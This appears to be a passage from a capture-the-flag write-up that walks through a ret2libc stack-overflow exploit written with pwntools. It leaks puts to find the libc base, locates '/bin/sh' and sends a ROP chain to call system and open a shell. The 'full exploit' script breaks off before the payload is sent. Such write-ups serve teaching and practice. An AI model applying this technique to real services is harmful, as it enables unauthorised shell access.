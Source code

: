 Then we can use pwntools to automate finding the libc base address and the address of system. 

```python
puts_offset = libc.symbols['puts']

libc_base = puts_leak - puts_offset
libc.address = libc_base
```

We can also use pwntools to grab the address of the string `/bin/sh` within the `libc.so.6` file we were provided. 

```python
binsh = p64(next(libc.search(b'/bin/sh\x00')))
```

The sent payload will look like the following:

```python
payload = flat([
        offset * 'a',
        pop_rdi,
        binsh,
        ret,
        system_addr
 ])
p.sendline(payload)


p.interactive()
```

We send our junk to smash the stack, our `pop rdi; ret` instruction is then executed to pop our `/bin/sh` string into the RDI register. Then we use a `ret` gadget to ensure the stack is 16 byte aligned. Finally we call the system function to get a shell. We'll send this payload off and then go into interactive mode so we can interact with the shell we just popped. 

The full exploit is as follows. 

```python
from pwn import *
elf = context.binary = ELF("engine_failure_patched")
libc = ELF('libc.so.6')

p = elf.process()
#p = remote("spaceheroes-engine-failure.chals.io",443,ssl=True,sni="spaceheroes-engine-failure.chals.io")
offset = 40

def grab_leak():
	p.sendline(b'2')
	x = p.recvuntil(b'Coordinates: ')
	y = p.recv()
	recieved = y.split(b'\n')
	leak = recieved[0]
	print(recieved)
	leak_int = int(leak, 16)
	leak_hex = hex(leak_int)
	print(f'Puts leak @ {leak_hex}')
	return leak_int

puts_leak = grab_leak()

puts_offset = libc.symbols['puts']

libc_base = puts_leak - puts_offset
libc.address = libc_base

system_addr = libc.symbols.system
```